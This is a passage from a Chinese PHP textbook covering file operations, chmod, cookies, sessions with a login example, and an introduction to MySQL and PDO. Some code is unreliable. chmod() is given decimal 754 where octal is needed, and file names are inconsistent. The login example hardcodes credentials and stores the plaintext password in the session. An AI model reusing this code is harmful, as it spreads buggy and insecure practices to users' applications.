这段 PHP 代码使用 `file_put_contents()` 函数将数据写入文件。`$data` 变量存储要写入的内容，`$filename` 变量存储目标文件的路径，数据将被写入该文件。然后用两个变量 `$data` 和 `$filename` 作为参数调用 `file_put_contents` 函数。这个函数很有用，因为它将将数据写入文件简化为一行代码。

请注意，如果文件不存在，该函数还会负责文件创建，以及处理写入错误。

如果成功运行这段代码，你会看到 `$data` 变量中包含的文本已替换掉指定文件中之前的所有内容。但是，如果你希望保留现有内容并在其后追加新文本，则有几种选择。接下来，我们将使用 PHP 提供的名为 **FILE_APPEND** 的常量。该常量允许我们将数据追加到文件末尾，而不是完全覆盖它。

要使用此常量，只需将 `FILE_APPEND` 作为第三个参数追加到 `file_put_contents()` 函数即可。这告诉 PHP 将新数据追加到文件末尾，同时保留现有内容。

以下是如何修改 `file_put_contents()` 函数以使用 `FILE_APPEND` 常量：

```php
<?php
// Data to be written to the file
$data = "Content to be written to the file.";

// Target file path
$filename = "filetext/new_file.txt";

// Write data to file
file_put_contents($filename, $data, FILE_APPEND);
?>
```

使用此修改后，新内容将被添加到文件末尾，而不会覆盖现有数据。

## 删除文件

在 PHP 中，文件删除可以使用 `unlink()` 函数执行。该函数以要删除的文件路径作为参数，如果删除成功则返回 true，否则返回 false。

以下是如何使用 `unlink()` 函数删除文件的示例：

```php
<?php
// Path of the file to be deleted
$filename = "filetext/new_file.txt";

// Delete the file
if (unlink($filename)) {
  echo "The file has been deleted successfully.";
} else {
  echo "Error: Unable to delete file.";
}
?>
```

## 结果：


在此示例中，**unlink()** 函数用于删除由 `$filename` 路径指定的文件。如果删除成功，将显示一条消息，指示文件已成功删除。否则，将显示一条错误消息。

需要注意的是，删除文件是一种永久且不可逆的操作。因此，建议在使用 `unlink()` 函数时小心谨慎，以避免意外删除文件。

## 高级文件处理

PHP 中的高级文件操作涉及移动文件、更改权限、检查文件是否存在等操作。本节将探讨各种 PHP 函数，使你能够执行这些高级文件操作。

### 移动文件

在 PHP 中，可以使用 **rename()** 函数移动文件。该函数允许你将文件或文件夹重命名或移动到新的指定位置。以下是如何使用 `rename()` 函数移动文件的示例：

让我们在 eBoophp 项目的根目录下创建一个名为 "destination_folder" 的新文件夹。在 "filetext" 目录中，我们已经创建了一个名为 "poeme.txt" 的文件。接下来，我们将把此文件移动到新的 "destination_folder" 目录中。

但是，请注意，存储文件的目录必须可读写。根据你的操作系统，你可能需要授权对该目录的读写访问权限。

```php
<?php

// Source file path
$source = "filetext/poem1.txt";

// Destination path
$destination = "new_folder/poem1.txt";

// Move file
if (rename($source, $destination)) {
  echo "The file has been successfully moved";
} else {
  echo "Error: Unable to move file.";
}
?>
```

在此示例中，`rename()` 函数用于将由 `$source` 路径指定的文件移动到 `$destination` 路径。如果移动成功，将显示一条消息，指示文件已成功移动。否则，将显示一条错误消息。请注意，你可以为移动后的文件指定一个新名称。

### 更改权限

在 PHP 中，可以使用 **chmod()** 函数更改文件权限。该函数允许你通过指定八进制数字中的新权限来更改对文件的访问权限。每个文件都有三组权限，分别适用于不同类型的用户：文件所有者、与文件关联的组以及其他用户。每组权限都由一个数字表示。

| 权限 | 符号 | 值 | 说明 |
|---|---|---|---|
| 读取 | r | 4 | 允许读取 |
| 写入 | w | 2 | 允许写入 |
| 执行 | x | 1 | 允许执行 |

### 示例：

7 (4 + 2 + 1)：表示所有者拥有读取、写入和执行权限。
6 (4 + 2)：表示所有者拥有读取和写入权限，但没有执行权限。
5 (4 + 1)：表示所有者拥有读取和执行权限，但没有写入权限。

因此，数字 **641** 授予文件所有者读取和写入权限（6 = 4 + 2），组仅拥有读取权限（4），其他用户仅拥有执行权限（1）。

以下是如何使用 **chmod()** 函数更改文件权限的示例：

```php
<?php
// File path
$filename = "new_folder/poem1.txt";

// New permissions (e.g. 0644 for read and write for owner, read for group and read for others)
$new_permissions = 754;

// Change file permissions
if (chmod($filename, $new_permissions)) {
  echo "File permissions have been successfully modified.";
} else {
  echo "Error: Unable to change file permissions";
}
?>
```

在此示例中，**chmod()** 函数用于使用指定的新权限修改由 `$filename` 路径指定的文件的权限。如果修改成功，将显示一条消息，指示文件权限已成功修改。否则，将显示一条错误消息。`$new_permissions` 变量中指定的值 754 授予所有者所有权限（7 = 4+2+1），用户组读取和执行权限（5 = 4+1），其他用户仅拥有读取权限（4）。

### 注意：

确保你尝试修改权限的文件实际上存在于指定位置，并且路径正确。如果你在本地计算机上运行此代码，请确保你的用户拥有修改指定目录中文件权限的必要权限。

### 文件存在性检查

在 PHP 中，可以使用 **file_exists()** 函数检查文件是否存在。该函数检查指定位置是否存在文件或目录。以下是如何使用 `file_exists()` 函数检查文件是否存在的示例：

```php
<?php
// File path
$filename = "new_folder/poem1.txt";

// Check file existence
if (file_exists($filename)) {
    echo "The file exists";
} else {
    echo "The file does not exist";
}
?>
```

在此示例中，`file_exists()` 函数用于检查由 `$filename` 路径指定的文件是否存在。如果文件存在，将显示指示文件存在的消息。否则，将显示指示文件不存在的消息。

## 结论

在本章中，我们专门探讨了 PHP 中的图像和文件操作，深入了解了这种编程语言提供的强大功能。我们详细探讨了加载、显示、读取和写入文件所涉及的各个步骤，以及移动和删除文件的高级方法。通过掌握这些基本技能，你现在已经具备了创建动态、交互式 Web 应用程序的能力，这些应用程序能够充分发挥图像和文件的潜力。凭借对这些概念的深入理解和对 PHP 工具的掌握，你已准备好迎接最具挑战性的 Web 开发任务。


## 第 9 章

## 会话与 Cookie 管理

会话和 Cookie 是开发交互式和动态 Web 应用程序的关键要素。它们存储和维护服务器和客户端的信息，使个性化用户体验和跟踪浏览活动变得更加容易。

会话和 Cookie 在 Web 开发中广泛用于各种功能，包括：

- **身份验证与授权管理**：会话和 Cookie 用于维护用户登录状态，并限制对网站某些部分的访问。
- **临时数据存储**：会话用于存储执行某些功能所需的临时数据，例如在线商店中的购物车。
- **个性化用户体验**：通过存储语言、主题等用户偏好，Cookie 使您能够个性化浏览体验。
- **跟踪浏览活动**：Cookie 用于收集用户与网站交互的数据，使我们能够分析趋势并个性化内容。

在本章中，我们将详细探讨 PHP 中 Cookie 和会话的管理，以及与其使用相关的最佳实践和安全注意事项。

### Cookie 管理

Cookie 是由 Web 浏览器存储在用户计算机上的小型文本文件。它们在现代网站的运行和个性化中起着至关重要的作用。Cookie 使网站能够记住用户偏好、跟踪其活动并提供个性化体验。

在本节中，我们将详细探讨 PHP 中的 Cookie 管理，包括 Cookie 的创建、读取、修改和删除，以及 Web 开发中使用 Cookie 时的良好安全实践。

一般来说，Web 浏览器与 Web 服务器之间 Cookie 的交换过程，以及在客户端存储、在服务器端访问和操作以实现各种功能的过程，可以总结如下：

- 1- 当 Web 浏览器向 Web 服务器发送 HTTP 请求以访问页面或执行特定操作时，该过程开始。
- 2- Web 服务器通过发送包含 Cookie 的 HTTP 头部来响应此请求。Cookie 是存储在浏览器中的小段数据，使用户在与网站交互时能够被跟踪和识别。
- 3- 浏览器将这些 Cookie 存储在客户端，并将其与服务器指定的域和路径关联。
- 4- Web 服务器向浏览器发送 HTTP 响应，该响应可能包含要显示或处理的其他数据。
- 5- 当浏览器向服务器发送新的 HTTP 请求时（例如，访问网站上的其他页面），它会自动包含与该站点域和路径关联的 Cookie。
- 6- 服务器使用 PHP 中的 `$_COOKIE` 超全局数组检索这些服务器端 Cookie，从而允许根据需要在服务器端脚本中访问和操作它们。
- 7- Cookie 可以在服务器端为各种功能进行操作，例如用户身份验证跟踪、内容个性化、偏好跟踪等。
- 8- 随着浏览器发送的每个后续请求，关联的 Cookie 都会自动包含在内，使服务器能够继续使用它们来个性化用户体验。

以下插图总结了客户端 Web 浏览器与 Web 服务器之间 Cookie 交换过程：


简而言之，Cookie 用于存储客户端信息，并与每个请求一起传输到服务器，使服务器能够维护应用程序状态并个性化用户体验。

### 创建和发送 Cookie

在 PHP 中创建 Cookie，请使用 setcookie() 函数。此函数接受多个参数，包括 Cookie 名称、值、有效时间（可选）、路径（可选）和域（可选）。


- **name**：Cookie 的名称。
- **value**：与 Cookie 关联的值。
- **expire**：可选，以 Unix 时间戳形式指定 Cookie 的过期日期。如果未指定，Cookie 将在会话结束时过期。
- **path**：可选，指定 Cookie 可用的服务器路径。默认情况下，它在整个站点中可用。
- **domain**：可选，指定 Cookie 可用的域。默认情况下，它在当前域中可用。
- **secure**：可选，指定是否仅通过 HTTPS 传输 Cookie。默认情况下，设置为 false。
- **httponly**：可选，指定 Cookie 是仅可通过 HTTP 访问而不能通过 JavaScript 访问。默认情况下，设置为 false。

Cookie 可以存储各种类型的信息，例如会话标识符、用户偏好、语言设置、跟踪数据等。以下是可以存储在 Cookie 中的实际示例：

假设一个网站允许用户从一系列主题中选择他们喜欢的主题。用户选择主题后，网站可以将此信息存储在 Cookie 中，以便下次访问站点时，他们会看到先前选择的同一主题。

将首选主题存储在 Cookie 中的代码示例：

```php
<?php
// Setting cookie name and value
$name = "user";
$theme_value = "Alice Dupont";

// Set cookie lifetime (1 hour)
$expiration = time() + 3600; // current timestamp + 3600 seconds (1 hour)

// Set the path for which the cookie is valid (the whole site)
$path = "/";

// Set the domain for which the cookie is valid (current domain)
$domain = "";

// Create cookie with setcookie()
setcookie($name, $theme_value, $expiration, $path, $domain);

// Display a confirmation message
echo "The cookie has been created successfully";
?>
```

在此示例中：

- Cookie 名称设置为 "user"，其值设置为 "Alice Dupont"。
- Cookie 在创建后 1 小时（3600 秒）过期。
- 路径定义为 "/"，以指示 Cookie 在整个站点中有效。
- 域留空，这意味着 Cookie 对当前域有效。
- 最后，使用 **setcookie()** 函数以指定的参数创建 Cookie。
- 执行此代码后，将创建一个名为 "user"、值为 "Alice Dupont" 的 Cookie，有效期为一小时。

### 结果：


### 读取 Cookie

创建的 Cookie 会自动包含在 `$_COOKIE` 超全局数组中。要在 PHP 中读取 Cookie，可以使用 `$_COOKIE` 超全局数组。以下是读取现有 Cookie 的方法：

```php
<?php
// Check if the cookie exists
if(isset($_COOKIE["user"])) {
  // Retrieve the value of the "user" cookie
  $user = $_COOKIE["user"];
  // Display the cookie value
  echo "Hello, ". $user . "! You're back.";
} else {
  // If the cookie doesn't exist, display a default message
  echo "Welcome, unknown visitor!";
}
?>
```

在此示例中：

我们首先使用 `isset($_COOKIE["user"])` 检查 "user" Cookie 是否存在。
如果 Cookie 存在，我们使用 `$_COOKIE["user"]` 检索其值并将其分配给 `$user` 变量。
接下来，我们使用 Cookie 值显示个性化欢迎消息，如果 Cookie 不存在，则显示默认消息。

这种方法的价值在于个性化用户体验。通过使用 Cookie，网站可以识别以前的访问者并为他们提供个性化欢迎，这可以改善他们在网站上的体验并增强参与度。它还可以更轻松地保留某些用户偏好或登录数据，在后续访问网站时提供更流畅、更方便的体验。

### 结果：

Hello, Alice Dupont! 你回来了。

### 修改和删除 Cookie

要修改现有 Cookie，只需创建一个与要修改的 Cookie 同名的新 Cookie 即可。这将使用指定的新值覆盖旧 Cookie。只需确保指定与原始 Cookie 相同的选项，例如路径和有效时间，以避免任何不一致。

例如，如果您想修改先前创建的 "user" Cookie，可以按如下操作：

```php
<?php
setcookie('user', 'theme_fonce', time() + 72000, '/');
?>
```

此代码通过将现有 user Cookie 的值替换为 "theme_fonce" 来修改它。修改后的 Cookie 将在执行时起 72,000 秒（20 小时）内有效，并且将从


域根目录。

要删除 Cookie，可以将其值设置为空，并指定过去的过期日期。这会告诉浏览器删除该 Cookie。同样，请确保指定与原始 Cookie 相同的选项，以确保 Cookie 被正确删除。

```php
<?php
// Set an expiration date in the past to delete the cookie
setcookie('user', '', time() - 3600, '/');
?>
```

在本示例中，我们通过将用户 Cookie 的值设置为空字符串并指定过去的过期日期来删除该 Cookie。这会导致 Cookie 在用户的浏览器中立即过期，从而将其永久删除。

# Cookie 安全性

需要注意的是，Cookie 存储在客户端，用户可以对其进行修改。因此，不要在 Cookie 中存储敏感信息，并在将数据用于应用程序之前，务必验证并清理所有数据。

Cookie 管理是现代 Web 开发的重要组成部分，它为在用户浏览器上存储临时信息提供了一种便捷的方式。然而，理解其局限性并安全地使用它们至关重要，以保证应用程序数据的完整性和机密性。

# Session 管理

PHP 中的 Session 是一种在不同 HTTP 请求之间维护 Web 应用程序状态的基本技术。Session 是一种在浏览网站时存储用户特定信息的方法，例如用户身份验证、购物车、用户偏好设置等。与 Cookie 不同，Session 数据存储在服务器上，因此更安全，因为它不会暴露给客户端。

## Session 管理流程

PHP Session 管理流程包含以下步骤：

- **Session 启动：** 在使用 Session 之前，需要通过调用 session_start() 函数来启动一个 Session。该函数会初始化一个新 Session，如果 Session 已存在，则恢复该 Session。

- **将数据存储在 Session 中：** 启动 Session 后，可以使用 $_SESSION 关联数组在 Session 中存储数据。$_SESSION 中存储的数据在 Session 期间可用于网站的所有页面。

- **访问 Session 数据：** 要访问存储的 Session 数据，只需使用带有相应键的 $_SESSION 数组来访问相应的值即可。

- **关闭 Session：** 使用完 Session 后，可以通过调用 session_destroy() 函数来关闭它。这将销毁所有现有的 Session 数据。

## Session 的优势

- **安全性：** Session 数据存储在服务器上，因此比客户端 Cookie 更安全。

- **持久性：** Session 数据在 Session 期间始终可用，即使用户在网站的不同页面之间导航。

- **灵活性：** Session 可以存储大量数据，因此非常适合管理敏感或复杂的信息。

## 实际示例

为了更好地理解 Session 的工作原理，让我们以带有会员区的网站为例。每个用户都必须登录才能访问该区域，并且必须保证用户在其在网站上的整个 Session 期间保持已识别状态。

为此，我们需要为用户提供一个登录表单：

首先，让我们创建一个新的 connection.php 文件，并在其中放入以下表单：

```html
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Connect to member area</title>
</head>
<body>
<h2>Connect to member area</h2>
<form action="verification.php" method="post">
<div>
<label for="username">Username:</label>
<input type="text" id="username" name="username">
</div>
<br>
<div>
<label for="password">Password:</label>
<input type="password" id="password" name="password">
</div>
<div>
<input type="submit" value="Login">
</div>
</form>
</body>
</html>
```

该表单通过 POST 方法将用户输入的数据发送到名为 "verification.php" 的验证脚本。它包含两个字段：一个用于用户名（"text" 类型），另一个用于密码（"password" 类型）。

verification.php 文件将负责验证用户提供的信息，以授权或拒绝访问会员区。但为了本示例的目的，我们的目标是解释 Session 的工作原理，以便数据可以从一页传递到另一页。

为了将我们的示例付诸实践，我们创建了一个名为 "verification.php" 的文件，在其中为测试目的定义了基本用户名和密码。理想情况下，在实际场景中，我们将查询数据库以验证用户提供的信息的真实性。

## 启动和存储 Session 数据

```php
<?php
// Basic username and password for tests
$valid_username = "toto";
$valid_password = "azerty123";

// Check if form data has been sent
if (isset($_POST['username']) && isset($_POST['password'])) {
    // Check that username and password are correct
    if ($valid_username == $_POST['username'] && $valid_password == $_POST['password']) {
        // Start session
        session_start();

        // Save session parameters
        $_SESSION['username'] = $_POST['username'];
        $_SESSION['password'] = $_POST['password'];

        // Display a welcome message and a link to the members' area
        echo "Logged in as " . $_SESSION['username'] . "<br />";
        echo 'You can access the members\' area: <a href="members.php">Link to members\' page</a>';
    } else {
        // Error message if username or password is incorrect
        echo 'Sorry, the username or password is incorrect.';
    }
} else {
    // Message if form data not sent
    echo 'You need to go to the login page.';
}
?>
```

以下是代码的详细解释：

- **初始化变量：**

$valid_username 和 $valid_password 被定义为连接的有效用户名和密码。
在实际场景中，这些值通常会与数据库或其他身份验证系统进行核对。

- **检查表单数据：**

if 条件 (isset($_POST['username'])) && isset($_POST['password'])) 检查表单数据是否已通过 POST 方法提交。

- **检查登录名和密码：**

如果已提交表单数据，代码会检查用户名和密码是否与先前定义的有效值相符。这是通过条件 if ($valid_username == $_POST['username'] && $valid_password == $_POST['password']) 完成的。

- **启动 Session：**

如果登录名和密码正确，则通过 session_start() 启动一个 Session。随后，用户信息会通过 $_SESSION['username'] 和 $_SESSION['password'] 存储在 Session 变量中。

- **消息显示：**

如果登录名和密码正确，将显示一条欢迎消息，其中包含已登录用户的名称以及指向会员专用页面的链接。


如果用户 ID 或密码不正确，将显示一条错误消息来通知用户。


- **错误情况管理：**

如果未提交表单数据，将显示一条消息，告诉用户前往登录页面。
这段代码展示了 PHP 中登录和密码验证以及 Session 管理的简单示例。

# 访问 Session 数据

在 members.php 页面中（用户登录后将被重定向到该页面），应通过验证其 Session 信息的存在来检查用户是否已登录。如果用户已登录，则可以显示会员专用内容。

以下是你可以在 members.php 页面中包含的示例：

```php
<?php
session_start();

// Check if user is logged in
if (isset($_SESSION['username']) && isset($_SESSION['password'])) {
    // Display members-only content
    echo 'Welcome to the members\' area, ' . $_SESSION['username'];
    echo '<br>';
    echo 'Members-only content...<br />';
    echo '<a href="logout.php">Log out</a>'; // link for disconnect
} else {
    // Redirect user to login page if not logged in
    header('Location: login.php');
    exit();
}
?>
```

这段 PHP 代码检查用户是否已以会员身份登录。其工作原理如下：

第一步是通过调用 **session_start()** 函数来启动 Session，该函数必须在代码的最开头声明。这使得可以访问存储的 Session 信息。

接下来，代码会通过验证 $_SESSION 数组中是否存在 "username" 和 "password" 键来检查用户的 Session 信息是否存在。这些键包含在连接时存储的用户身份识别信息。


如果存在会话信息，这意味着用户已登录。代码随后使用存储在 $_SESSION['username'] 中的值显示个性化欢迎消息，该值表示已登录用户的标识符。

接下来，代码显示会员专用内容。在此示例中，这仅是一条指示这是会员专用内容的消息，但在实际应用中，您可以显示各种特定于会员的功能或信息。

最后，代码显示一个“退出”链接，该链接将用户重定向到注销页面（logout.php）。该页面管理会话的销毁，允许用户退出登录。


如果不存在会话信息，则用户未登录。在这种情况下，代码会使用 header('Location: login.php') 函数自动将用户重定向到登录页面（login.php）。这确保只有已登录的用户才能访问会员专用内容。

## 退出登录并关闭会话

最后一步涉及退出用户并销毁会话。在 PHP 中，操作方法如下：
创建一个名为“logout.php”的页面来管理注销过程。

- 在此页面上，使用 session_start() 启动会话以访问会话信息。
- 然后使用 session_unset() 函数销毁与用户关联的会话变量。
- 然后使用 session_destroy() 函数完全销毁当前会话，删除与用户关联的所有会话数据。

销毁会话后，使用 header('Location: index.php') 函数将用户重定向到另一个页面（例如登录页面或主页）。

“logout.php”页面的代码如下：

```php
<?php

session_start(); // We start the session

session_unset(); // We destroy our session variables

session_destroy(); // Destroy our session

// Redirect the visitor to the home page
header('Location: index.php');
?>
```

此代码可有效断开用户连接并将其重定向到主页。但是，需要注意的是 session_unset() 函数是可选的，因为 session_destroy() 已经删除所有会话数据。在大多数情况下，仅使用 session_destroy() 就足够了。

## 结论

在本章中，我们详细探讨了 PHP 中的 Cookie 和会话管理。我们学习了如何使用 Cookie 存储有关用户浏览器的信息，从而能够个性化用户体验并跟踪网站上的访客活动。我们还研究了会话，它为每个活跃用户提供了一种安全的方式来存储临时的服务器端数据，特别是对于管理身份验证和维护应用程序状态非常有用。

通过了解创建、读取、修改和删除 Cookie 的机制，以及创建和销毁会话，PHP 开发者可以在其 Web 应用程序中实现高级功能，例如用户会话管理、内容个性化、购物车管理等等。

需要注意的是，Cookie 和会话管理必须谨慎进行，以保证用户数据的安全性和保密性。通过遵循良好的开发实践并使用适当的 PHP 函数，开发者可以创建强大、安全的 Web 应用程序，提供流畅、可靠的用户体验。

简而言之，了解 Cookie 和会话管理对于任何希望创建交互式和动态 Web 应用程序的 PHP 开发者来说都是基础。通过掌握这些概念，开发者可以创建既更高效又更用户友好的网站。

## C 部分

### MySQL 数据库管理

数据管理是现代 Web 开发的基本支柱。考虑到这一点，PHP 和 MySQL 是创建动态交互式 Web 应用程序的必备工具。本书 C 部分侧重于将数据库高效集成到 PHP 项目中，并特别强调 MySQL。

在本部分中，我们将深入探讨在 PHP 中使用数据库所涉及的关键概念。我们将首先了解如何从 PHP 脚本建立到 MySQL 数据库的安全连接，重点关注良好的安全实践以避免潜在漏洞。

接下来，我们将学习如何使用 SQL 查询从数据库中查询数据。我们将介绍各种数据操作技术，包括使用 PHP 脚本在 MySQL 数据库中插入、选择、更新和删除数据。

在本部分中，您将深入了解 PHP 项目中的数据库集成，增强开发强大、安全且高性能 Web 应用程序的技能。

### 第 10 章

### 数据库简介及连接 MySQL 数据库

数据库在动态交互式 Web 应用程序的开发中发挥着至关重要的作用。它们能够高效地存储、组织和操作大量数据，为我们的应用程序提供坚实的结构。在本章中，我们将探讨数据库的工作原理，重点是从 PHP 脚本连接到 MySQL 数据库。本章将分为三个部分：

### 1. 了解数据库

在本部分中，我们将深入探讨数据库的基本概念。我们将发现什么是数据库，其不同的类型（关系型、NoSQL 等），以及表、列、记录和键等关键元素。

### 2. MySQL 简介

MySQL 是 Web 开发世界中最流行、使用最广泛的关系型数据库管理系统之一。在本部分中，我们将了解 MySQL，探索其历史、架构和主要功能。

### 3. PHP 与 MySQL 数据库连接

现在我们已经对数据库和 MySQL 有了基本了解，接下来将进入实践环节，学习如何在 PHP 和 MySQL 数据库之间建立连接。我们将介绍配置连接参数、打开和关闭连接所需的步骤，以及保护凭据的良好安全实践。

总之，本章将为我们进一步探索 PHP 应用程序中的数据库集成奠定基础，提供建立安全高效的 MySQL 数据库连接所需的知识和技能。

### 了解数据库

在深入探讨使用 PHP 进行数据库管理的技术细节之前，了解数据库的工作原理至关重要。

### 什么是数据库？

数据库是一个组织有序的数据集合，其结构旨在便于访问、高效处理和一致更新。它旨在永久存储信息，以便日后检索和使用。

### 数据库类型

有多种不同类型的数据库，每种都有其特定的特性和用途。主要的两种类型是关系型数据库和 NoSQL 数据库。

- 关系型数据库：这些基于关系模型，并使用表来存储数据。表之间的关系通过主键和外键建立，从而能够以一致的方式管理结构化数据。
- NoSQL 数据库：这些采用更灵活、结构更少的数据存储方法。它们通常用于需要在非结构化或半结构化数据管理中实现可扩展性和灵活性的应用程序。

### 关系型数据库


| 表 1 |
|---------|
|         |

| 表 2 |
|---------|
|         |

| 表 3 |
|---------|
|         |

| 表 4 |
|---------|
|         |

### 关系型数据库的关键元素

在关系型数据库中，数据被组织为表、列和记录等不同的实体。以下是关系型数据库的主要元素：

**表：** 这些代表关联的数据集。每个表由行和列组成。

**列：** 这些定义构成表的各种属性或数据字段。

**记录：** 它们表示存储在表中的单个数据，每个记录对应表中的一行。

**主键和外键：** 这些用于建立表之间的关系。主键是表中每条记录的唯一标识符，而外键用于引用另一个表中的主键。


## 数据处理

数据库中的数据操作涉及插入、更新、检索和删除数据。这些操作通过使用 **SQL**（结构化查询语言）查询来执行，这是一种专门设计用于与关系型数据库交互的编程语言。

简而言之，了解数据库对任何开发者来说都是必不可少的，因为它提供了有效设计和管理复杂信息系统所需的基础。

## 不同的数据库管理系统（DBMS）

数据库管理系统（DBMS）是专门用于管理数据库的软件程序，确保数据库的创建、操作、存储和访问。DBMS 有多种类型，每种都有其自身的特性和功能。主要的 DBMS 类型包括：

- **关系型 DBMS：** 这种 DBMS 基于关系模型，并使用 SQL 语言来管理数据。关系型 DBMS 的流行示例包括 MySQL、PostgreSQL、Oracle Database 和 Microsoft SQL Server。
- **NoSQL DBMS：** NoSQL DBMS 在数据管理方法上与关系型 DBMS 不同。它们旨在管理非结构化或半结构化数据，并提供高度可扩展性。NoSQL DBMS 的示例包括 MongoDB、Cassandra 和 Redis。
- **面向对象 DBMS：** 这些 DBMS 旨在存储和操作对象，而非表格数据。它们为建模复杂数据提供了更灵活的方法。面向对象 DBMS 的示例包括 db4o 和 ObjectDB。
- **内存型 DBMS：** 这些 DBMS 将数据完全存储在内存中，从而实现数据的快速访问。它们用于对高性能有要求的应用程序。内存型 DBMS 的示例包括 Redis 和 Memcached。

每种 DBMS 都有其优点和缺点，选择合适的 DBMS 取决于应用程序的特定需求和技术约束。就本书而言，我们将主要关注作为关系型 DBMS 的 MySQL。MySQL 是一种广泛使用的开源 DBMS，以其可靠性、性能和易用性而闻名。通过专注于 MySQL，我们将探讨其在 PHP Web 开发环境中高效数据库管理方面的用途和特性。

在本书中，我们已经安装了 XAMPP Server，这是一个包含 Apache、MySQL、PHP 和 Perl 的 Web 开发包。这意味着 MySQL 已包含在 XAMPP 安装中。

事实上，通过使用 XAMPP，您的系统上不仅安装了 MySQL，还安装了 Apache 和 PHP，使您能够在本地创建和测试 Web 应用程序。

## MySQL 简介

**MySQL 简介：** MySQL 是一种开源关系型数据库管理系统，广泛用于 Web 开发。它最初由 MySQL AB 于 1995 年开发，现由 Oracle Corporation 在 2010 年收购后维护。MySQL 以其可靠性、性能和易用性而闻名，成为全球开发者和企业的热门选择。

**MySQL 架构：** MySQL 采用客户端-服务器架构。MySQL 服务器是管理数据库的中央组件，而客户端连接到服务器以访问和操作数据。

在此架构中：

- **客户端：** 表示与 MySQL 服务器交互以发送请求和接收结果的客户端应用程序。
- **MySQL 服务器：** 处理客户端连接，解释和执行 SQL 查询，管理安全性、数据访问和事务。
- **数据库存储：** 数据物理存储于磁盘的位置。

这种客户端-服务器架构是 MySQL 等关系型数据库管理系统的典型架构。客户端向 MySQL 服务器发送 SQL 查询，服务器执行这些查询，检索结果并将其返回给客户端。

**MySQL 的优势：** MySQL 的优势包括其稳定性、高性能、与多种平台和编程语言的兼容性、适用于不同规模应用程序的灵活性、处理大量数据的可扩展性，以及其活跃的社区和支持生态系统。

**MySQL 的局限性：** 虽然 MySQL 是一个健壮的数据库管理系统，但它确实存在某些局限性。例如，某些高级功能（如事务管理和集群功能）可能不如其他数据库管理系统那样发展完善。此外，MySQL 的免费版本可能对硬件资源和可用功能有所限制。

**MySQL 的用途：** MySQL 广泛应用于各个领域，包括 Web 应用程序、内容管理系统（CMS，如 WordPress 和 Drupal）、数据分析应用程序、移动应用程序等。其多功能性和健壮性使其成为各种项目和应用程序的热门选择。

## 使用 PHP 连接 MySQL 数据库

在对数据库和 MySQL 有了基本了解后，我们将进入实践部分：从 PHP 脚本连接到 MySQL 数据库。事实上，要能够查询数据库，首先需要与该数据库建立连接。在本书的这一部分，我们将学习建立安全连接、配置连接参数、打开和关闭连接以及保护凭据的良好安全实践所涉及的步骤。

简而言之，本节将为我们提供理解和建立与 MySQL 数据库安全连接所需的知识和技能，为我们在 PHP 应用程序中进一步探索数据库集成奠定基础。

通常用于管理与 MySQL 数据库连接的两种主要方法是：使用 **mysqli 扩展**和使用 **PDO**（PHP 数据对象）对象。两者都提供了强大的功能，用于建立安全连接并与 MySQL 数据库进行交互。

第一种方法是 mysqli 扩展，它提供了一个 MySQL 特定的接口，带有诸如 **mysqli_connect**（用于建立连接）、**mysqli_query**（用于执行 SQL 查询）和 **mysqli_fetch_array**（用于检索结果）等函数。该扩展直接集成到 PHP 中，并为与 MySQL 的交互提供了高性能。

第二种方法是 PDO 扩展，它提供了一个更通用的接口，用于处理包括 MySQL 在内的不同数据库。PDO 提供了更通用的数据库抽象，使在必要时更换数据库变得更加容易。它还支持预处理查询，从而提供更强的 SQL 注入安全性。

在 **mysqli** 和 **PDO** 之间的选择通常取决于开发者的偏好和项目的特定需求。这两种方法都广泛使用，并为在 PHP 中与 MySQL 进行交互提供了全面的功能。在本书中，我们专注于使用 PDO 对象。

## 什么是 PDO？

PDO（PHP 数据对象）是 PHP 5 引入的一个扩展，它提供了一个数据抽象层，这意味着它与 MySQL 无特定关联，并且与所使用的数据库无关。得益于 PDO，代码变得非常容易移植，只需修改连接行，即可将 **MySQL** 数据库切换到 **SQLite**、**PostgreSQL**、**Oracle** 等其他数据库。

PDO 提供了多种优势，包括可移植性、易用性和速度。事实上，该扩展为与不同数据库交互提供了统一接口，简化了代码开发和维护。

## PDO 扩展包含三个主要类：

- **PDO 类：** 创建表示数据库连接的对象，并提供发送查询、创建预处理查询和管理事务等基本操作的方法。
- **PDOStatement 类：** 表示预处理查询或 SELECT 查询结果。其方法管理预处理查询并读取查询结果。
- **PDOException 类：** 允许您使用对象来管理和显示错误信息，从而更轻松地调试和管理应用程序中的错误。

## 数据库连接过程

使用 PDO 连接到 MySQL 数据库的过程涉及两个主要步骤：

创建 PDO 类的实例：首先，通过指定数据库连接参数（如主机名、数据库名、用户名和密码）来创建 PDO 类的实例。


错误处理：建议配置 PDO，以便在连接或查询执行期间发生错误时生成异常。这样可以在代码中适当地处理错误。

为了具体说明此过程，让我们以创建 **library** Web 应用程序为例。在创建相应的数据库之前，请在 Apache 服务器上创建一个名为 "library" 的目录，即如果您按照第 1 章所述安装了 XAMPP，则位于 XAMPP 的 "htdocs" 文件夹中。

## 创建 "library" 数据库

接下来，我们创建一个名为 "library" 的数据库及一些关联表：

此时，数据库包含三个表：

- "books" 表：book_id, title, description, year_published, author_id, category_id
- "authors" 表：author_id, last_name, first_name, email, password, biography
- "categories" 表：category_id, category_name

每个表都有一个唯一的主键："books" 表的 book_id，"authors" 表的 author_id，以及 "categories" 表的 category_id。

此外，在 "books" 表中，列 "author_id" 和 "category_id" 用作外键，这意味着它们分别引用 "authors" 和 "categories" 表的主键。这种结构使得可以在各个表之间建立关系。例如，每本书都与特定作者和特定类别关联，从而方便地根据这些关系组织和检索数据。

### authors

| 列名 |
|-------------|
| author_id |
| last_name |
| first_name |
| email |
| password |
| biography |

### books

| 列名 |
|-------------|
| book_id |
| title |
| description |
| year_published |
| author_id |
| category_id |

### categories

| 列名 |
|-------------|
| category_id |
| category_name |

要为该应用程序创建数据库，请在启动 XAMPP 后通过以下 URL 访问 phpMyAdmin：http://localhost/phpmyadmin/。接下来，创建一个新数据库，我们将其命名为 "library"。


接下来，创建三个表 "authors"、"books" 和 "categories"。下图显示了 "authors" 表的创建过程。请注意，"author_id" 属性是作者标识符，类型为 "INT"（整数），并且会自动递增。为此，请在 "AI"（自动递增）列中勾选复选框。"last_name"、"first_name"、"email" 和 "password" 属性的类型为 VARCHAR（字符串）。"biography" 属性的类型为 "text"，允许最多 65535 个字符。

按照相同的流程，您接着创建另外两个表 "books" 和 "categories"。


## 连接到 "library" 数据库

